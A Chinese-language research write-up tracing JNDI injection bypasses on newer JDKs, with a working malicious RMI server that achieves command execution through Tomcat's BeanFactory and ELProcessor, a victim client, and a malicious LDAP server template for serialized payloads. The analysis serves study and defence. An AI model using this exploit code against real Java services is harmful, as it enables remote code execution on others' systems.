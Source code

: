 # 高低版JDK下的JNDI注入绕过流程跟踪

## Rmi

服务端本地`ClassPath`中存在恶意`Factory`类可被利用来作为`Reference Factory`进行攻击利用。该恶意`Factory`类必须实现`javax.naming.spi.ObjectFactory`接口，实现该接口的`getObjectInstance()`方法，网上说是`org.apache.naming.factory.BeanFactory`类,该类的`getObjectInstance()`函数中会通过反射的方式实例化`Reference`所指向的任意`Bean Class`，并且会调用`setter`方法为所有的属性赋值。而该`Bean Class`的类名、属性、属性值，全都来自于`Reference`对象，均是攻击者可控的。

### 依赖

`org.apache.naming.factory.BeanFactory` 存在于Tomcat依赖包中，所以使用也是非常广泛

### 分析

恶意RMI服务端

```java
package lldapp;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("[*]Evil RMI Server is Listening on port: 6666");
        Registry registry = LocateRegistry.createRegistry( 6666);
        // 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        // 强制将'x'属性的setter从'setX'变为'eval', 详细逻辑见BeanFactory.getObjectInstance代码
        ref.add(new StringRefAddr("forceString", "x=eval"));
        // 利用表达式执行命令
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd', '/c', 'calc']).start()\")"));
        System.out.println("[*]Evil command: calc");
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

客户端

```Java
import javax.naming.Context;
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        String uri = "rmi://localhost:6666/Object";

        Context ctx = new InitialContext();
        ctx.lookup(uri);
    }
}
```

具体跟踪就不写了，来个关键点

![](img/1.png)

从`RMI`注册表中`lookup`查询到服务端中目标类的`Reference`后返回一个`ReferenceWrapper_Stub`类实例，该类实例就是客户端的存根、用于实现和服务端进行交互，最后调用`decodeObject()`函数来解析

![](img/2.png)

跟入

![](img/3.png)

继续跟进`getObjectFactoryFromReference`，从Reference中获取ObjectFactory·	

![](img/4.png)![](img/5.png)

调用`Beanfactory`的`getObjectInstance`

![](img/6.png)

判断obj参数是否是ResourceRef类实例

![](img/7.png)

现在我们来看看对于表达式解析的过程
首先这里获取了我们最初设置的`x=eval`````![](img/8.png)按`=`分隔![](img/9.png)

这里是将`x`与`javax.el.ELProcessor`类的`eval()`方法绑定并存入hashmap![](img/10.png)

接着是多个do while语句来遍历获取ResourceRef类实例addr属性的元素，当获取到addrType为x的元素时退出当前所有循环![](img/11.png)

将刚才存入map的方法取出，并调用

## ldap

LDAP服务端除了支持JNDI Reference这种利用方式外，还支持直接返回一个序列化的对象。如果Java对象的javaSerializedData属性值不为空，则客户端的obj.decodeObject()方法就会对这个字段的内容进行反序列化。此时，如果服务端ClassPath中存在反序列化咯多功能利用Gadget如CommonsCollections库，那么就可以结合该Gadget实现反序列化漏洞攻击。

![](img/14.png)

这里var1(slot_2)变量为null，传入getURLClassLoader()函数调用后返回的是AppClassLoader即应用类加载器；再往下就是调用deserializeObject()函数来反序列化javaSerializedData的对象字节码：

![](img/13.png)

恶意LDAP服务器如下，主要是在javaSerializedData字段内填入刚刚生成的反序列化payload数据：

```Java
package lldapp;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import java.text.ParseException;

public class LdapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main (String[] args) {

        String url = "http://127.0.0.1:8000/#EvilObject";
        int port = 1234;


        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                "listen",
                InetAddress.getByName("0.0.0.0"),
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;


        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }


        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */

        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }


        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            try {
                e.addAttribute("javaSerializedData", Base64.decode("" +
                    "反序列化数据"));
            } catch (ParseException exception) {
                exception.printStackTrace();
            }

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

